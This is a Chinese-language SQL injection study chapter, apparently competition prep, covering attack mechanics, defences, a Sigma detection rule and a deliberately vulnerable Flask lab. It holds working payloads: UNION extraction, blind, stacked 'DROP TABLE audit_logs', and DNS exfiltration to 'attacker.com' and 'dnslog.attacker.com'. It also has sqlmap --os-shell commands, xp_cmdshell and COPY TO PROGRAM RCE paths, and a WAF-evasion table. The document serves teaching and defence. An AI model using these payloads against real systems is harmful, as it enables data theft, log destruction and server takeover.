

# R10.1 SQL 查詢表達式結構注入 (SQL Query Injection)

---

## 🎯 作戰任務破題 (Tactical Objective & Mental Workflow)

**SQL 查詢結構注入 (SQLi)** 的物理本質為**語法解析樹 (Abstract Syntax Tree, AST) 的邊界破壞**。當未經白名單過濾或參數化隔離之不可信字串被直接拼接至 SQL 語句時，資料流 (Data Stream) 越界轉化為指令指令流 (Instruction Stream)，導致 RDBMS 詞法分析器 (Lexer) 將惡意輸入重新解析為 SQL 語法關鍵字與運算元。

```
[客戶端未過濾字串輸入] ── ' UNION SELECT NULL, password FROM users --
                                │
                                ▼ [後端字串拼接: SELECT * FROM items WHERE id = ' + input + ']
[RDBMS 語法解析器 (Parser)] ──► 詞法邊界被單引號提早閉合 (Token Boundary Corruption)
                                │
                                ▼ 原始 AST 節點結構被惡意篡改
┌───────────────────────────────┴───────────────────────────────┐
│ [原始 AST 意圖]: 查詢單一產品品項                             │
│ [篡改後 AST]:    主查詢 UNION 連接子查詢，自 admin 憑證表抽取引出數據 │
└───────────────────────────────┬───────────────────────────────┘
                                ▼
[資料庫引擎執行] ──► 資料越權竊取 / 檔案讀寫 (INTO OUTFILE) / 系統命令執行 (xp_cmdshell)
```

---

## 🔬 第一動：SQL 語法剖析與攻擊維度矩陣 (Mechanics & Injection Dimensions)

### 0. 戰術思維破局：為什麼不永遠都用 UNION？（攻擊手法決策樹）

很多初學者常問：「既然 `UNION SELECT` 這麼好用，為什麼還要搞那些複雜的報錯注入、布林盲注、時間盲注？」

> 💡 **核心殘酷現實**：**如果能用 `UNION`，沒有攻擊者會想用盲注！**  
> `UNION` 必須建立在一個極度嚴格的前提：**後端必須把資料庫查詢結果，原封不動印在前端網頁上（稱為「回顯 (Echo)」）**。  
> 當後端只回傳「帳密錯誤」、「登入成功」或「HTTP 200/500」時，`UNION` 查出來的資料根本無處可印，攻擊者只能依據伺服器的微弱反饋（錯誤訊息、狀態真偽、時間延遲）來「猜」出資料！



---

### 0.1 UNION 注入的兩大物理鐵律與「ORDER BY 測欄位」SOP

為什麼初學者直接打 `' UNION SELECT * FROM users` 會直接噴 **HTTP 500 內部伺服器錯誤**？因為 `UNION` 語法在 RDBMS 資料庫引擎內有兩條不可違背的物理鐵律：

#### 🚨 鐵律一：兩邊查詢的「欄位數量必須完全相等」
* **物理本質**：`UNION` 的作用是將兩個查詢結果在資料結構上進行「垂直疊加」。
* **衝突成因**：如果原本的查詢只查了 8 個欄位（例如商品的 `id, name, desc, price...`），而你寫了 `SELECT * FROM users`（假設 `users` 表有 3 個欄位），8 個欄位疊加 3 個欄位，資料庫不知道多出來的欄位該怎麼排，直接拋出語法異常（在 Web 伺服器端體現為 **HTTP 500 錯誤**）！

#### 🚨 鐵律二：對應位置的「資料型態必須相容」
* **物理本質**：如果原本查詢的第 1 欄是整數（`id INT`），而你的第二個查詢第 1 欄硬塞字串（`username VARCHAR`），資料庫無法進行隱式型態轉換時，同樣直接拋出 500 報錯拒絕執行！

#### 🚨 鐵律三：必須有「註解符號」截斷後方原始語句
* **衝突成因**：若不加註解（`-- ` 或 `#`），後端原本 SQL 結尾的單引號或附加條件（如 `' AND active=1`）會殘留在末端，導致 SQL 語法結構不完整而引發 500 錯誤！

---

### 🛠️ UNION 實戰四步作戰 SOP（PortSwigger 必備實操流程）

```text
【步驟 1：測欄位數】       【步驟 2：NULL 驗證】          【步驟 3：測文字回顯欄位】        【步驟 4：精準提取目標】
' ORDER BY 1-- (200)   ➔  ' UNION SELECT             ➔  ' UNION SELECT            ➔  ' UNION SELECT 
' ORDER BY 8-- (200)      NULL,NULL,NULL...-- (200)     NULL,'test',NULL...--        NULL,password,NULL...--
' ORDER BY 9-- (500)      (確認剛好 8 個欄位)            (確認哪一欄能印出字串)         FROM users WHERE ...
(得知總共有 8 欄！)
```

1. **第一步：用 `ORDER BY` 測出總欄位數**：
   - 注入 `' ORDER BY 1--`，逐漸把數字加乘（1, 2, 3...）。
   - 當測到某數字（例如 9）頁面突然從 200 變成 500 報錯時，代表**上一數字（8）即為真實的欄位總數**！
2. **第二步：用全 `NULL` 做型態中立驗證**：
   - 構造對應數量之 `NULL` 欄位（因為 `NULL` 能相容任何資料型態）：
     `' UNION SELECT NULL, NULL, NULL, NULL, NULL, NULL, NULL, NULL--`
   - 頁面若恢復 HTTP 200，100% 證明欄位數量完全吻合！
3. **第三步：逐欄測試「字串 (String) 接收與回顯位置」**：
   - 依序將其中一個 `NULL` 替換為字串 `'a'`：
     `' UNION SELECT 'a', NULL, NULL...--` ➔ 噴 500 表示該欄位為數字型態。
     `' UNION SELECT NULL, 'a', NULL...--` ➔ 正常 200 且網頁印出 `a`，表示**第 2 欄為文字回顯欄位**！
4. **第四步：填入目標資料表與欄位萃取**：
   - 將目標欄位放入可回顯之位置：
     `' UNION SELECT NULL, password, NULL... FROM users--`
   - 若欲同時提取多個欄位，可利用字串串接（如 PG/Oracle 用 `username || '~' || password`，MySQL 用 `CONCAT(username, '~', password)`）。

---

### 1. 什麼是「頻寬與吞吐特徵 (Bandwidth & Throughput)」？

手冊中所稱的頻寬，**不是網路卡的速度**，而是指：  
👉 **「攻擊者每發送 1 次 HTTP 請求，能從受害資料庫偷出多少有效資訊量？」**

* **UNION 注入（5G 光纖）**：發送 **1 次** 請求，整張資料表或長密碼一次性在畫面顯示。
* **Error-based 報錯（4G 行動網路）**：發送 **1 次** 請求，受限於錯誤字串長度上限，一次約吐出 32～64 字元。
* **Boolean Blind（電報機 1 bit/次）**：畫面只有 True 與 False。猜 1 個英文字母需要發送約 **7 次** 請求（以二分搜尋問：`ASCII > 64?` ➔ `ASCII > 96?`...）。偷 20 字元的密碼需發送 **140 次** 請求。
* **Time-based Blind（敲牆壁打信號）**：畫面完全無變化，只能靠 `sleep(5)` 當暗號。猜錯立刻回傳，猜對等 5 秒。偷 20 字元的密碼可能需要**耗時數分鐘**。

---

### 2. 四大主流關聯式資料庫 (RDBMS) 核心考點對比表

| 資料庫類型 | 核心時間延遲函數 (初賽必背) | 字串連接語法 | 版本查詢函數 | 註解符號 |
| :--- | :--- | :--- | :--- | :--- |
| **MySQL / MariaDB** | `SLEEP(5)`<br>`BENCHMARK(5000000, MD5(1))` | `CONCAT('a', 'b')` | `VERSION()` 或 `@@VERSION` | `-- ` (需空格)、`#`、`/*...*/` |
| **Microsoft SQL Server (MSSQL)** | `WAITFOR DELAY '0:0:5'` | `'a' + 'b'` | `@@VERSION` | `--`、`/*...*/` |
| **PostgreSQL** | `pg_sleep(5)` | `'a' \|\| 'b'` | `VERSION()` | `--`、`/*...*/` |
| **Oracle** | `dbms_pipe.receive_message('RDS', 5)` | `'a' \|\| 'b'` | `banner FROM v$version` | `--` (不支援單行 `#`) |

---

### 3. 寬字節注入 (Wide-Byte Injection) 物理逃逸成因

* **成因背景**：後端使用了 GBK / BIG5 等**雙位元組（雙字節）編碼**，且後端透過 `addslashes()` 或 `magic_quotes_gpc` 對單引號 `'` 自動跳脫轉義為 `\'`。
* **物理逃逸過程**：
  1. 攻擊者傳入 `%df'`。
  2. 後端在單引號 `'` (`%27`) 前強制補上反斜線 `\` (`%5c`)，字串在記憶體中變成：`%df%5c%27`。
  3. 資料庫以 GBK 編碼解析時，判定 `%df%5c` 符合雙位元組高位範圍，將其合體解碼為單一中文字（漢字「**運**」）。
  4. 原本用於轉義的反斜線被吃掉，後面的單引號 `%27` (`'`) 孤立脫穎而出，**成功閉合 SQL 語法邊界**！

---

### 4. 注入分類物理特性對照表

| 注入類別 | 觸發原理 | 頻寬與吞吐特徵 | 代表性 Payload 結構 |
| :--- | :--- | :--- | :--- |
| **In-band (UNION)** | 欄位數量與資料型態對齊，直接將惡意查詢結果附加至回顯輸出 | 高 (即時明文回顯) | `' UNION SELECT 1, @@version, 3--` |
| **Error-based** | 觸發資料庫數學/XML/轉換異常，將敏感資訊隨錯誤訊息噴出 | 中 (單次截斷回顯) | `' AND updatexml(1,concat(0x7e,version()),1)--` |
| **Boolean Blind** | 注入條件布林表達式，依據 HTTP 回應長度/狀態碼真偽逐位元嗅探 | 低 (1 bit/request) | `' AND (ASCII(SUBSTRING((SELECT table_name FROM ...),1,1))) > 64--` |
| **Time-based Blind**| 注入運算延遲函數，依據伺服器 Socket 回應延時確認布林真偽 | 極低 (網路抖動干擾) | `' OR IF(1=1, SLEEP(5), 0)--` / `'; WAITFOR DELAY '0:0:5'--` |
| **Stacked Queries** | 利用分號 `;` 終止前條語句並注入完全獨立之全新 DDL/DML 語句 | 致命 (具任意寫入能力) | `'; DROP TABLE audit_logs;--` |
| **Out-of-band (OOB)**| 強迫 DBMS 伺服器向外部發起 DNS/SMB 解析請求，將資料夾帶於子網域 | 高 (異步外發，避開重導) | `'; SELECT load_file(CONCAT('\\\\', (SELECT password), '.attacker.com\\a'));--` |

---

### 5. 破除單一盲點：SQL 注入的五大完整維度地圖

若僅從「資料怎麼拿出來（回顯管道）」看 SQL 注入，考試考到其他角度就會漏看陷阱！完整的 SQL 注入分類包含五大維度：

```text
                                  ┌── 1. 回顯管道: UNION / Error / Boolean / Time / OOB (如上表)
                                  ├── 2. 語法位置: SELECT / INSERT / UPDATE / ORDER BY (★大考點)
SQL 注入的 5 個切入維度 ─────────┼── 3. 觸發時機: 一階注入 (當場) vs 二階注入 (後續業務撈出觸發，★大考點)
                                  ├── 4. 閉合型態: 整數型 (無引號) vs 字串型 vs LIKE 搜尋型
                                  └── 5. 語句連鎖: 單條語句 vs 堆疊查詢 (Stacked Queries)
```

#### 維度二：注入點出現在 SQL 語句的哪個位置？
1. **`ORDER BY` 注入（初賽超級大考點 ★★★）**：
   - **為什麼不能用預編譯（參數化查詢）防禦？**  
     SQL 標準規定，**欄位名稱、資料表名稱、排序方向關鍵字（`ASC`/`DESC`）不能當作 `?` 參數占位符**！開發者若直接字串拼接 `ORDER BY $col` 就會破防。**唯有在後端使用白名單映射 (Whitelist Mapping) 才能根本防禦！**
   - **為什麼不能用 UNION？**  
     `ORDER BY` 位處 SQL 語句最末端，後方無法直接銜接 `UNION SELECT`（語法解析錯誤）。因此遇到 `ORDER BY` 注入，**通常只能退而求其次使用報錯注入或布林/時間盲注**！
2. **`INSERT` / `UPDATE` 注入**：
   - 發生在使用者註冊個人資料、修改信箱密碼等寫入情境。
   - 風險在於攻擊者可透過注入欄位（如 `, role='admin'`）直接將低權限帳號竄改提升為最高管理者。

#### 維度三：觸發時機（一階 vs 二階）
1. **一階注入 (First-Order)**：輸入 Payload ➔ 當場拼接 ➔ 當場執行 ➔ 當場回傳（常規注入）。
2. **二階注入 (Second-Order，初賽必背 ★★★)**：
   - **第一階段（潛伏儲存）**：攻擊者註冊一個名字叫 `admin'--` 的帳號。因為後端用了轉義，安全存入資料庫，**邊界 WAF 完全不會攔截**。
   - **第二階段（二次讀取引爆）**：後續其他功能（如修改密碼）從資料庫撈出此帳號，拼裝到另一條語句 `UPDATE users SET pass='123' WHERE user='$username'` 時才爆炸，直接改掉管理員 `admin` 的密碼！
   - **秒殺題眼**：題目只要出現**「惡意資料被安全儲存於系統中，待後續其他業務模組讀取時才觸發」** ➔ **秒選「二階注入 (Second-Order SQLi)」**！

#### 維度四：引號閉合方式（整數型 vs 字串型）
1. **整數型注入 (Numeric Context)**：
   - 語法：`SELECT * FROM news WHERE id = 1`（後端原本就沒寫引號）。
   - **考點**：工程師以為只要「過濾單引號」就安全，但整數型注入**根本不需要單引號**！直接帶入算式 `id = 1 OR 1=1` 即直接破防。
2. **字串型注入 (String Context)**：
   - 語法：`WHERE user = 'admin'`，必須先閉合單引號 `'` 或雙引號 `"`，再以註解符號（`-- `、`#`）截斷後續語法。
3. **搜尋型注入 (LIKE Context)**：
   - 語法：`WHERE title LIKE '%[輸入]%'`，需以 `%' OR 1=1 AND '%'='` 閉合前後的萬用字元 `%`。

#### 維度五：語句連鎖能力（堆疊查詢 Stacked Queries）
* 在支援分號 `;` 分隔多條 SQL 的環境（如 **MSSQL**、PostgreSQL），攻擊者可在查完第一句後，連鎖執行完全獨立的第二條指令：`SELECT * FROM items; DROP TABLE logs;--`。
* 在 MSSQL 中可藉由堆疊查詢啟用 `xp_cmdshell` 直接取得作業系統控制權 (RCE)。

---

### ⚡ 隊員 A 金盾獎 3 大秒殺金牌公式

| 題目出現特徵描述 | 標準正解直覺反射 |
| :--- | :--- |
| **「過濾了單引號，卻依然能觸發的 SQL 注入」** | ➔ **整數型注入 (Numeric Context)** |
| **「參數化查詢 (Prepared Statements) 無法直接作為占位符防禦」** | ➔ **`ORDER BY` 排序欄位 / 資料表名稱**（必須靠白名單防禦） |
| **「儲存時安全未引發告警，待後續業務流程讀取重拼時才引爆」** | ➔ **二階注入 (Second-Order SQLi)** |

---

## ⚡ 第二動：戰術執行與工具鏈操作 (Attack Vectors & Automation)

### 1. 核心注入檢驗與資料抽取命令 (sqlmap & Manual)

```bash
# 1. 自動化檢測與權限指紋探測 (含技術指紋與 DB 名稱列舉)
sqlmap -u "https://target.corp.internal/api/products?cat=1" \
    --batch --level=3 --risk=2 --dbms=MySQL --current-db --current-user --is-dba

# 2. 堆疊查詢配合高權限 RCE 觸發 (以 MSSQL 為例)
sqlmap -u "https://target.corp.internal/report.aspx?id=10" \
    --technique=S --os-shell --sql-shell

# 3. 手動 Out-of-band DNS Exfiltration (適用於完全無回顯且封鎖 Outbound HTTP 環境)
# PostgreSQL DNS 外帶範例
psql -c "SELECT fn_dns_resolve((SELECT version()) || '.dnslog.attacker.com');"
```

---

## 🥷 第三動：防禦規避與日誌特徵操控 (Evasion & Telemetry)

### 1. 攻擊特徵消減與 WAF 繞過表

| 繞過維度 | 原始攔截特徵 | 變形混淆/規避技術 | 規避機制說明 |
| :--- | :--- | :--- | :--- |
| **空白符過濾** | `SELECT 1, 2 FROM` | `SELECT/**/1,2/**/FROM` 或 `%0aSELECT%0a` | 利用行內註解或換行符替代空白 |
| **關鍵字屏蔽** | `UNION SELECT` | `UNIunionON/**/SELselectECT` 或 `/*!50000SELECT*/` | 利用多層嵌套剔除遞迴或 MySQL 專屬條件註解 |
| **字串常數過濾** | `'admin'` | `0x61646d696e` 或 `CHAR(97,100,109,105,110)` | 規避引號偵測，以十六進位或字元編碼表示 |
| **參數長度截斷** | 超長惡意 Payload 觸發 400 | **HTTP 參數污染 (HPP)**：`?id=1&id=UNION&id=SELECT` | 利用 WAF 與後端解析多重參數順序的不一致性 |

---

## ⚔️ 第四動：藍隊反制與對抗矩陣 (Confrontation Matrix & Detection)

```
[攻擊特徵] ──► [WAF 封包層] ── 觸發正規表達式或語意引擎 (Libinjection) ──► 攔截 403 Forbidden
                │
                ▼ [DBMS 審計層] 
                - MySQL: General Query Log 記錄未解析參數之語句
                - MSSQL: Event 119 (RPC:Completed) / Extended Events 擷取 EXEC/xp_cmdshell
                - SIEM: 短時間大量相同長度之盲注 HTTP 封包 (數百次/秒)
```

### 關鍵 Sigma 偵測規則 (偵測 MSSQL 異常 Command Shell 啟用)
```yaml
title: MSSQL xp_cmdshell Configuration or Execution
status: stable
logsource:
  product: windows
  service: mssql
detection:
  selection:
    EventID: 15457
    Message|contains:
      - 'xp_cmdshell'
      - 'show advanced options'
  condition: selection
level: critical
```

---

## 🛡️ 第五動：工程級防禦基線 (Hardening Baselines)

1. **參數化查詢 (Prepared Statements)**：全面使用參數化綁定 (Parameterized Query)，迫使資料庫引擎在編譯期即確定 AST 拓撲，輸入資料永遠僅視為常數 (Literal Value)。
2. **正規 ORM 安全綁定**：杜絕在 ORM 介面 (如 Hibernate, Entity Framework, Sequelize) 內直接調用 `raw()` 或原生 SQL 拼接字串。
3. **資料庫帳號權限極小化 (Least Privilege)**：
   - 應用程式連線帳號嚴格禁止 `SUPER`, `DBA`, `sysadmin` 角色。
   - 封鎖檔案讀寫權限 (`FILE` 權限、`SECURE_FILE_PRIV` 鎖死為 NULL)。
   - 禁用或刪除高危險延伸模組：MSSQL 封閉 `xp_cmdshell`、PostgreSQL 封閉 `COPY FROM PROGRAM`、MySQL 阻斷 UDF 動態庫注入。

---

## 🧪 實戰演練環境搭建 (Environment & Lab Setup)

### 1. 極簡 SQLi 靶機端點 (Python Flask + SQLite, 20 行)
```python
# app.py
from flask import Flask, request, jsonify
import sqlite3

app = Flask(__name__)
conn = sqlite3.connect(":memory:", check_same_thread=False)
conn.execute("CREATE TABLE users (id INT, username TEXT, secret TEXT);")
conn.execute("INSERT INTO users VALUES (1, 'admin', 'FLAG{AST_BOUNDARY_BYPASS_SQLI}');")

@app.route("/search")
def search():
    uid = request.args.get("id", "")
    # 脆弱點：字串直接拼接進入 SQL 解析流
    query = f"SELECT id, username FROM users WHERE id = {uid}"
    try:
        cur = conn.cursor()
        res = cur.execute(query).fetchall()
        return jsonify({"data": res, "query": query})
    except Exception as e:
        return jsonify({"error": str(e)}), 500

if __name__ == "__main__":
    app.run(port=8888)
```

### 2. 三步作戰驗證流程
```bash
# 步驟 1: 啟動靶機
python3 app.py

# 步驟 2: 發起 UNION 注入抽取敏感機密
curl "http://127.0.0.1:8888/search?id=0%20UNION%20SELECT%201,secret%20FROM%20users"
# 驗證輸出：{"data":[[1,"FLAG{AST_BOUNDARY_BYPASS_SQLI}"]]}

# 步驟 3: 驗證修復（將 query 改為 cur.execute("SELECT ... WHERE id = ?", (uid,)) 後再次測試）
# 驗證輸出：500 錯誤或語法防禦阻斷，確認 AST 邊界未受損
```

---

## 🎯 作戰驗收檢查點 (Operational Checkpoints)

- [ ] **Q1：何時預編譯 (PreparedStatement) 無法防禦 SQL 注入？**
  - **戰術思維**：動態傳入 `TABLE_NAME`、`COLUMN_NAME`、`ORDER BY` 排序方向 (`ASC`/`DESC`)。因 SQL 標準不允許將物件名稱或關鍵字作為參數占位符，開發者若直接拼接此類欄位仍會觸發 SQLi。解決方案為伺服器端白名單嚴格映射。
- [ ] **Q2：Boolean-based 盲注在面對大量資料時萃取過慢，紅隊有何加速技巧？**
  - **戰術思維**：採用**二分搜尋法 (Binary Search)** 或**位元運算 (Bitwise shift: `ASCII & (1<<n)`)**，將單字元查詢次數自 128 次降至 7 次；若無回聯限制，改用 OOB (DNS Exfiltration) 單次帶出完整密文。
- [ ] **Q3：在 Second-Order (二階) SQL 注入中，WAF 為何通常無法攔截？**
  - **戰術思維**：惡意輸入初次進入系統時被安全存入資料庫（例如使用者註冊個人簡介），此時未拼接至查詢語句；當系統後續在信任邊界內讀取該欄位並動態拼裝至另一條核心 SQL 執行時才觸發，繞過邊界 WAF 檢查。
- [ ] **Q4：PostgreSQL 中如何利用堆疊查詢達成遠端程式碼執行 (RCE)？**
  - **戰術思維**：在具備 Superuser 權限下，利用 `COPY (SELECT '') TO PROGRAM 'id'` 或透過建立自訂 C 函數庫 (.so) 達成直接 OS 指令執行。
- [ ] **Q5：當字串常數引號被後端轉義 `\'` 封死時，Numeric Context 如何破局？**
  - **戰術思維**：若注入點為整數欄位（如 `WHERE status = 1`），語法原本即無須引號閉合。直接追加算術運算元或子查詢（如 `WHERE status = 1-IF(1=1,0,1)`）即可觸發完整布林/時間盲注。
